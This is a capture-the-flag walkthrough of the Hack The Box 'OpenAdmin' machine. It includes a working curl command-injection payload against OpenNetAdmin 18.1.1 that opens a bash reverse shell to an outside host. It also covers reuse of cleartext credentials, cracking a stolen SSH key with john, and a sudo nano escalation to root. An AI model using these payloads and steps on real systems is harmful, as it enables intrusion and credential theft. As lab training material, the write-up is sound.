# [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

```bash
nmap -sT -p- --min-rate 10000 10.10.10.171 -Pn
```



Here, we see that (22,80) ports are open.Let's do greater nmap scan for this ports.

```bash
nmap -sC -sV -A -p22,80 10.10.10.171 -Pn
```




Directory Enumeration.

```bash
gobuster dir -u http://10.10.10.171 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php,txt,html 
```




While enumerating '/music' directory , I see that there is endpoint '/ona' , we can access here.




Let's search exploit for 'OpenNetAdmin' version of 18.1.1 that we can find anything.




Let's do manually use this exploit.

```bash
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.8/1337 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/
```



We got reverse shell from port (1337).




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




I find cleartext credentials for file (database_settings.inc.php) on '/var/www/html/ona/local/config' directory.




I tried this credentials, and worked for 'jimmy' user.

jimmy: n1nj4W4rri0R!




While I doing local enumeration for network.

```bash
netstat -ntpl
```




There is port (52846) , if we browse this page, it gives private key (id_rsa).




I need to crack this by using `ssh2john` tool.

```bash
ssh2john id_rsa > hash.txt
```

After we got hash, we need to crack this via `john` tool.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```




Let's login via this private key (id_rsa) file.

```bash
chmod 600 id_rsa
ssh -i id_rsa joanna@10.10.10.171
```



user.txt




While I try to do privilege escalation via checking `sudo -l` command.




I find exploit for privesc from [here](https://gtfobins.github.io/gtfobins/nano/#sudo)

```bash
sudo /bin/nano /opt/priv

^R^X  #means Ctrl+R then Ctrl+X
reset; sh 1>&0 2>&0
```


root.txt

